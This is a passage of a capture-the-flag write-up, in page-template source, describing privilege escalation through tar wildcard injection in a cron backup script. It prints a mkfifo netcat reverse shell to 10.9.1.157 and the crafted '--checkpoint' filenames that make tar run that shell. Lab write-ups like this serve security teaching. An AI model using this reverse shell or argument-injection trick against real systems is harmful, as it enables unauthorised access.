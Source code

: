 {{image("../../static/writeups/seasurfer/images/000010.jpg")}}


{{header("Shell as kyle", "shell-as-kyle")}}

{{text("As the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>www-data</code> user, I was able to find a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>backup.sh</code> script at <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/var/www/internal/maintenance</code>.")}}

{{console("cat backup.sh", "#!/bin/bash

# Brandon complained about losing _one_ receipt when we had 5 minutes of downtime, set this to run every minute now >:D
# Still need to come up with a better backup system, perhaps a cloud provider?

cd /var/www/internal/invoices
tar -zcf /home/kyle/backups/invoices.tgz *")}}

{{text("I was able to find an article that should help us with privilage escalation.")}}

{{link("https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/", "https://www.hackingarticles.in/wp-includes/images/w-logo-blue-white-bg.png", "Exploiting Wildcard for Privilege Escalation")}}

{{text("If we create a file named <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>--checkpoint=1</code> and another named <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>--checkpoint-action=exec=sh shell.sh</code>, they will get passed to the command like this.")}}

{{console("", "tar -zcf /home/kyle/backups/invoices.tgz --checkpoint=1 --checkpoint-action=exec=sh shell.sh")}}

{{text("The <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>*</code> wildcard expands to include all filenames in the directory, and files starting with <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>--</code> are interpreted as options by the tar command.")}}

{{text("As a result, <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>--checkpoint=1</code> triggers the checkpoint mechanism immediately, and <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>--checkpoint-action=exec=sh shell.sh</code> executes the shell.sh script.")}}

{{text("I got a mkfifo reverse shell and saved it into a file named shell.sh inside of the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/var/www/internal/invoices</code> directory.")}}

{{console("echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.1.157 1235 >/tmp/f' > shell.sh")}}

{{text("Then I created a file that will execute shell.sh.")}}

{{console("echo '' > '--checkpoint-action=exec=sh shell.sh'")}}

{{text("And the last file.")}}

{{console("echo '' > --checkpoint=1")}}
